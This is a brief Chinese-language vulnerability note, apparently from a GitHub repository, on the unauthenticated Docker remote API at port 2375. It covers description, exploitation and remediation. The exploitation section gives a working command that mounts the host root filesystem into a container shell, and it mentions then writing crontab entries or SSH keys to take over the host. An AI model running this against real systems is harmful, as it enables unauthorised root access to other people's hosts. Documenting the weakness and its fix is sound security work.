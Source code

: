 ### 一 漏洞描述
docker 在使用集群管理(如:Kubernetes,swarm)时，要使用remote api对节点进行管理。  
remote api无认证时的默认端口是2375(需要TLS认证默认登录是2376)。  
remote api默认是可以不需要认证能直接访问，能直接对docker进行操作,如新建容器,删除容器,查看镜像容器信息等操作。

### 二 漏洞利用
远程直接挂载
```
docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

写crontab或写.ssh秘钥获取宿主权限
![img.png](img.png)

### 三 漏洞修复
限制本机访问

> 参考链接  
> http://t.zoukankan.com/devi1-p-13486411.html  
> https://blog.csdn.net/weixin_39531582/article/details/110412285
